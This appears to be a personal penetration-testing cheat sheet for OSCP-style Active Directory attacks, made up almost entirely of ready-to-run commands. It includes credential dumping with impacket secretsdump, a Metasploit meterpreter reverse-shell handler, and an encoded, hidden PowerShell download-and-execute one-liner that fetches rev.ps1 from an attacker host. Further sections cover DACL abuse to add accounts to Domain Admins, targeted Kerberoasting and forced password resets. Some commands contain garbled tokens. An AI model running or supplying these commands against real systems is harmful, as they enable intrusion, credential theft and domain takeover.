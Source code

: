 user enumration

crackmapexec smb 1.1.1.1 -u "username" -p "password" --users (--groups) (--pass-pol)
impacket.getNPUsers domain.local/ -no-pass -usersfile users.txt
impacket.ownere'dit -action write -new-owner "yourusername" -target "targetusername" "domain.local"/'yourusername':'yourpassword' -dc-ip 192.168.1.1
impacket-secretsdump domain.local/username@IP




cheat sheet oscp
Bloodhound
bloodhound-python -d domain.local -u username -p password -v --zip -c All -dc domain.local -ns 192.168.1.1
sharphound

Check group members
net rpc group members "groupname" -U "domain.local/pooja.ritu%qazwsx" -S 192.168.1.1



commands
----
Host IP: 192.168.xx.xx
target IP: 192.168.xx.xx
----

Launch msfconsole
------------------

service postgresql start
sudo msfdb start
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST tun0
set LPORT 4444
set ExitOnSession false
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
exploit -jz

Reverse Shell
-------------
$Command = "(New-Object System.Net.WebClient).DownloadString('http://192.168.xx.xx/rev.ps1') | IEX"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
$EncodedCommand = [Convert]::ToBase64String($Bytes)
$EncodedCommand
powershell -$ta -Nop -Window Hidden -EncodedCommand $EncodedCommand

base64

DACL Genricall
--------------

net rpc user -U ignite.local/komal%'Password@1' -S 192.168.1.8
net rpc group members "Domain Admins" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodhound-python -u komal -p Password@1 -ns 192.168.1.8 -d ignite.local -c All

Account Manipulation DACL(Discretionary Access Control Lists )
--------------------
net rpc group addmem "Domain Admins" "komal" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "komal" -p "Password@1" add groupMember "Domain Admins" "komal"
net group "domain admins" komal /add /domain
#create two user account 
net user vipin Password@1 /add /domain
net user nishant Password@1 /add /domain
#Multiple Method for Exploitation
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
./targetedKerberoast.py --dc-ip '192.168.1.8' -v -d 'ignite.local' -u 'nishant' -p 'Password@1'
#1.2 Windows PowerShell Script-Powerview
#Make sur that the target account has no SPN and then Set the SPN to obtain the KerbTGS hash
Get-DomainUser 'vipin' | Select serviceprincipalname
Set-DomainObject -Identity 'vipin' -Set @{serviceprincipalname='nonexistent/hackingarticles'}
$User = Get-DomainUser 'vipin'
$User | Get-DomainSPNTicket | f1

![image](https://github.com/user-attachments/assets/cfff6843-6551-426b-8656-0d1b0da202ee)

#T1110.001 – Change Password
#2.1 Linux Net RPC – Samba
net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "nishant" -p "Password@1" set password "vipin" "Password@9876"
#2.3 Linux Net RPC –Rpcclient
rpcclient -U ignite.local/nishant 192.168.1.8
setuserinfo vipin 23 Ignite@987
#2.4 Windows Net Utility
net user Vipin Password@1234 /domain
#2.5 Windows PowerShell -Powerview
$SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\vipin', $SecPassword)
#2.6 Windows PowerShell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'vipin' -AccountPassword $NewPassword


Abusing AD-DACL: ForceChangePassword
--------------------------------------

#This permission provides right to change the password of a user account without knowing their current password.
#This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the #target user.
#Method for Exploitation – Change Password
#It can be achieved from UNIX-like system with net, a tool for the administration of samba and cifs/smb clients.
#net rpc password aarti 'Password@987' -U ignite.local/raj%'Password@1' -S 192.168.1.8
#Linux Net RPC – Rpcclient
rpcclient -U ignite.local/raj 192.168.1.8
setuserinfo aarti 23 Password@987
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "raj" -p "Password@1" set password "aarti" "Password@987"
#Windows PowerShell – Powerview
powershell -ep bypass
Import-Module .\PowerView.ps1
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'aarti' -AccountPassword $NewPassword

addself acl
-----------
The tester can abuse this permission by adding Anuradha User into Domain Admin group and list the domain admin members to ensure that Anuradha Users becomes Domain Admin.
net rpc group addmem "Domain Admins" anuradha -U ignite.local/anuradha%'Password@1' -S 192.168.1.7
bloodyAD --host "192.168.1.7" -d "ignite.local" -u "anuradha" -p "Password@1" add groupMember "Domain Admins" "anuradha"

The attacker can add a user/group/computer to a group. This can be achieved with with the Active Directory PowerShell module, or with Add-DomainGroupMember (PowerView module)
powershell -ep bypass
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\anuradha', $SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'anuradha' -Credential $Cred


Active Directory
https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-enumerate/
TOOLS:

adPEAS-Light.ps1 >>      https://github.com/61106960/adPEAS/blob/main/adPEAS-Light.ps1
PowerUp.ps1 >>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
PowerView.ps1>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
